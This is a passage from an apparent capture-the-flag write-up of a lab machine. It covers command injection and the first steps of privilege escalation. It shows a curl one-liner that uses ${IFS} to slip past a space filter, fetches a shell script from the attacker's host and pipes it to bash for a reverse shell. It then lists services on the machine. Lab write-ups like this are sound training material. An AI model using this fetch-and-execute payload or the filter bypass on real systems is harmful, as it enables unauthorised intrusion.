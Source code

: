 Using this, we can try to get a reverse shell as the user. When testing random payloads, I managed to trigger an error on the machine as well by typing `{$IFS}` wrongly:

<figure><img src="../../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

The `bash` reverse shell one-liner didn't work and was quite problematic with all of its special characters, so I used a `curl` one-liner instead.&#x20;

```bash
curl${IFS}10.10.14.22/shell.sh|bash
```

<figure><img src="../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### CloudHosting Jar --> SQL + User Creds

The `app` user has access to this `.jar` file:

```
app@cozyhosting:/app$ ls
cloudhosting-0.0.1.jar
```

Within the machine, there are other services that are active:

```
app@cozyhosting:/app$ netstat -tulpn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:5432          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 127.0.0.1:8080          :::*                    LISTEN      998/java            
```